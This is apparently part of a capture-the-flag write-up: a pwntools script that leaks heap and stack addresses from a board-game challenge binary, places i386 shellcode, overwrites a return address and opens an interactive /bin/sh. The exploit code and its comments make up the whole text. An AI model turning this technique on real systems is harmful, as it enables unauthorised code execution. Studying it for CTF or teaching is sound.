 ```
recvLines(9)
target.sendline('Q')
target.recvuntil("3) Q (Quit)")

# Initialize a 25 (5 x 5) board to setup the heap to leak a heap address
initializeGame("X"*5 + "0"*20, 5, 5)

# View the newly initalized board to get the heap infoleak
target.sendline("N")
recvNewMenu()
target.sendline("V")
recvLines(6)
heapLeak = target.recvline().replace("\x0a", "")
heapLeak = u32(heapLeak[2:4] + heapLeak[0:2])
log.info("Start of the heap is: " + hex(heapLeak))
target.sendline('Q')
target.recvuntil("3) Q (Quit)")

'''
For our shellcode have to jump through a couple of hoops. The '\xeb\x06' in the first two bytes stands for Jump ahead six instructions. As a part of the custom malloc, it writes over 
some of the values for our payload, so this is to get around that.

This will place us at the `mov ebp, 0x4`. Before our shellcode starts, it has a ptr stored in ebp, which needs to be set to 4 in order for the shellcode to work
(first instruction of the shellcode is `move ebx, ebp`)

After that we just use the pwntools built in i386 shellcode to call /bin/sh
'''

shellcode = '\xeb\x06'+'X'*4+'\x90'*2+asm('mov ebp,0x4')+asm(pwnlib.shellcraft.i386.linux.dupsh())

'''
Next we send the payload, which consists of the following

* Our shellcode
* 0's to bridge the gap between our shellcode, and the address we are writing to (return address)
* The ptr we are writing to (the return address)
* The value we are writing to the ptr (the address of our shellcode)
* Four X's to get us to 100 characters, and pass the requirement to have an 'X' character
'''

payload = shellcode + (88 - len(shellcode))*"0" + p32(stackLeak - 0x2f - 0x8) + p32(heapLeak + 0x48) + "X"*4

# Initialize the board with our payload, to pop a shell
initializeGame(payload, 10, 10, False)

# Drop to an interactive shell, to use the shell we just popped
target.interactive()
```
